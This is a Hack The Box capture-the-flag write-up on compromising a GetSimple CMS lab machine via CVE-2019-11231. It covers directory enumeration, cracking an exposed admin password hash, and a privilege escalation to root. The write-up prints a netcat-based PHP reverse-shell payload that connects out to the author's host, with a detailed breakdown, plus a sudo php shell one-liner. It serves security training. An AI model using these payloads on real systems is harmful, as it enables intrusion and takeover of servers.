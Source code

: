 ## **Hack The Box - Getting Started**

**Creator:** [mrb3n](https://app.hackthebox.com/users/2984)?

**Difficulty:** Easy

**Link:** 

---


<ins> **Introduction** </ins>

*Getting Started* is an Easy Level system and is meant to be the first *blackbox* machine someone following the *Penetration Tester* Learning path would encounter. As such I was not able to obtain creator information, a direct link to the machine, or it's info card. Although I can register a guess who the creator was based on a username found on the system.
In this challenge I gain a foothold by exploiting [CVE-2019-11321](https://nvd.nist.gov/vuln/detail/CVE-2019-11231). From there I'm able to obtain root access using the *www-data* users sudo privileges over the *php* command that can be found on [GTFO Bins](https://gtfobins.github.io/gtfobins/php/#sudo).

---

<ins> **Enumeration** </ins>

I Normally start each machine with an *nmap* scan and this one was no exception. 

![nmap output](/docs/assets/images/HTB/gettingstarted/gettingstarted1.png)

Port 22/tcp open to ssh using OpenSSH 8.2p1
 
Port 80/tcp open to http using Apache httpd 2.4.41

Neither one yielded any results initially with *searchsploit*. Navigating over to the webpages showed me what looked like an outline for a blog or something running *GetSimple* Content Managment System. This page contains a few links to documentation for *GetSimple* and some support forums. There are also some headers containing some content in a language I can't read, a list of features, and finally a link to *gettinstarted*. 



![searchsploit](/docs/assets/images/HTB/gettingstarted/gettingstarted2.png)

![webpage](/docs/assets/images/HTB/gettingstarted/gettingstarted3.png)

Navigating over to *gettingstarted* brings me to a server not found page. I noticed the ip_address in the url bar change itself into a hostname, which tells me I'll have to edit them into my */etc/hosts* file. Once I do that I'm able to load a webpage very similar to the one I was on before.

![404](/docs/assets/images/HTB/gettingstarted/gettingstarted4.png)

![etc hosts](/docs/assets/images/HTB/gettingstarted/gettingstarted5.png)

![webpage loaded](/docs/assets/images/HTB/gettingstarted/gettingstarted6.png)

I wasn't able to find a whole lot on the web page as it is. The next step for me was to run *gobuster* against the webserver. I started with a simple word list and got several hits. Three with a status code of 200, */index.php, /robots.txt, /sitemap.xml*, and five with a status code of 301 */theme, /plugs, /data, /backups, /admin*. 

`gobuster dir –u <target_ip> -w /usr/share/dirb/wordlists/common.txt`

![gobuster](/docs/assets/images/HTB/gettingstarted/gettingstarted7.png)

I spent some time navigating through these directories and seeing what information I could find from them. The */admin* directory redirected to a login page with a nonspecific error message, and inside of the */data* directory I was able to find an *api key* and what was likely the specific version of *GetSimple*, being *GetSimple 3.3.15*.

![admin login](/docs/assets/images/HTB/gettingstarted/gettingstarted10.png)

![nonspecific error](/docs/assets/images/HTB/gettingstarted/gettingstarted11.png)

![api key](/docs/assets/images/HTB/gettingstarted/gettingstarted8.png)

![GetSimple Version](/docs/assets/images/HTB/gettingstarted/gettingstarted9.png)

*Searchsploit* again failed to yield any results for this specific version. At this point I kind of hit a wall so I spent some time on google searching for the service versions I found already which is where I found [CVE-2019-11321](https://nvd.nist.gov/vuln/detail/CVE-2019-11231). 

![searchsploit getsimple](/docs/assets/images/HTB/gettingstarted/gettingstarted12.png)

![CVE-2019-11231](/docs/assets/images/HTB/gettingstarted/gettingstarted13.png)

Immediately what stood out to me was this line about password exposure:

> However, what is overlooked is that the Apache HTTP Server by default no longer enables the AllowOverride directive, leading to data/users/admin.xml password exposure.

Sure enough navigating over to the *data/users/admin.xml* directory leads to some exposed login credentials *admin:d033e22ae348aeb5660fc2140aec35850c4da997*. The password is hashed but I was able to easily put that into a file and use *john* to crack it.

```
echo "d033e22ae348aeb5660fc2140aec35850c4da997" > passhash.txt
sudo john passhash.txt
```
![password hash](/docs/assets/images/HTB/gettingstarted/gettingstarted14.png)

![john](/docs/assets/images/HTB/gettingstarted/gettingstarted15.png)

The password is *admin*. Navigating back over to the */admin* directory I enter the credentials *admin:admin* and gain access to the CMS admin page.

![CMS admin page](/docs/assets/images/HTB/gettingstarted/gettingstarted16.png)

---


<ins> **Exploitation** </ins>

According to the CVE I found the *theme-edit.php* file has poor input sanitization and allows for the upload of arbitrary content like php code. So I'm just going to replace everything currently in the editor with a php reverse shell.  

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.152 3232 >/tmp/f"); ?>`

Breaking that payload down a little bit:

`<?php?>` is the *php* tag, `system` is a built-in *php* function that is used to execute system commands. `rm /tmp/f` Removes the named pip */tmp/f* if it already exists, `mkfifo /tmp/f` creates a *FIFO (first in first out)* file which is also known as a named pipe. The file is named *f* and placed in the */tmp* directory, it is a special file type that is used for inter-process communication, it acts as a pipeline that allows one process to write to the pipe and another process to read from it. These named pipes do not store any data, they only server to pass data between processes. `cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.152 3232 >/tmp/f` pipes the output of */tmp/f* to netcat, which sends it to my ip address on the port I will set up the listener on. The `/bin/sh -i` part starts an interactive shell with input/output connected to the named pipe, `2>&1` redirects standard error to standard output, this means that error messages will also be sent to the remote host. Finally, `>/tmp/f` redirects the output of the *netcat* command back to the named pipe, so the reverse shell can read it.

![Theme Editor](/docs/assets/images/HTB/gettingstarted/gettingstarted17.png)

![php rev shell](/docs/assets/images/HTB/gettingstarted/gettingstarted18.png)

After that I will set up a listener in a new terminal then navigate over to the file path, *http://gettingstarted.htb/theme/innovation/* as specified on the *Content Theme* page, and click the file now containing the payload to execute it.

![listener](/docs/assets/images/HTB/gettingstarted/gettingstarted19.png)

![filepath](/docs/assets/images/HTB/gettingstarted/gettingstarted20.png)

![execute shell](/docs/assets/images/HTB/gettingstarted/gettingstarted21.png)

Back at my listener I can see that I'm now logged in as the www-data user. My next step after that is to use python to upgrade the TTY so that it's easier to work with and then I will begin the enumeration phase all over to see what I can find as this low level user. 

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![listener whoami](/docs/assets/images/HTB/gettingstarted/gettingstarted22.png)

![upgrade TTY](/docs/assets/images/HTB/gettingstarted/gettingstarted23.png)

The user flag was very easy to find since the www-data user has the correct permissions to read the file.

![user flag](/docs/assets/images/HTB/gettingstarted/gettingstarted24.png)

---


<ins> **Privilege Escalation** </ins>

Using `sudo -l` I'm able to see that the *www-data* user can execute the *php* command as root without the need for a password.

![sudo -l](/docs/assets/images/HTB/gettingstarted/gettingstarted25.png)  

Unfortunately while trying for privilege escalation my *TTY* was just giving me a world of trouble. So I started over and took a few extra steps to give myself a better one.  

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 

Ctrl-Z  # This will suspend the current process and return you to your local shell 

stty raw -echo 

Fg 
```

With that out of the way I now have a much more stable shell, sadly the exploit I am about to do in the next step is about undo all of that work.

Searching for *php* on [GTFO Bins](https://gtfobins.github.io/gtfobins/php/#sudo) shows an exploit that will escalate privileged access on the machine

```
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

![GTFO BINS](/docs/assets/images/HTB/gettingstarted/gettingstarted26.png)

![Whoami Root](/docs/assets/images/HTB/gettingstarted/gettingstarted27.png)

From there I just use `cat` to read the *root.txt* file to obtain the flag.

![root flag](/docs/assets/images/HTB/gettingstarted/gettingstarted28.png)

No fancy *PWND* info card with this one.

---


<ins> **Final Thoughts** </ins>

Not a whole lot on this one. I learned a little bit more about *named pipes* and taking a reverse shell I already used and modifying the payload slightly for a different system. All and all I'd say this is one of the easiest boxes I've ever done, which I believe it was intended to be since it's the *first* blackbox machine on the learning path.






